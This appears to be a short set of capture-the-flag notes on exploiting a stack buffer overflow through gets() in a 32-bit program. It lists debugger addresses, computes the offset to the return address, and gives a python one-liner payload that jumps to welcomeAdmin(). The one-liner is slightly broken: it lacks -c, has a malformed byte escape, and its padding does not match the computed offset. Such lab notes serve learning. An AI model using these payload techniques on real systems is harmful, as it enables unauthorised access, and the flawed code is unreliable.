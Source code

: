 gets = 0xf7de0670
Instruction of isAdmin = 0x080492bc
&name = 0xffffc56c

This is THE FUNC WE WANT to overwrite!!!
0x08049299

Register:
$esp = 0xffffc560

previous value of $esp = 0x08049294
get to print func

Main stack function:
$esp = 0xffffc590
just after the jump to printName = 0x08049299

address of welcomeAdmin() = 0x0804934a

TOOD: Need to manipulate the return value to jump to welcomeAdmin
![](./main-disass.png)

0xffffc58c - 0xffffc56c = 32 bytes needed

python3 "import sys; sys.stdout.buffer.write(28 * b'C' + b'\x4a\x93\x04\08')" > ./challenge
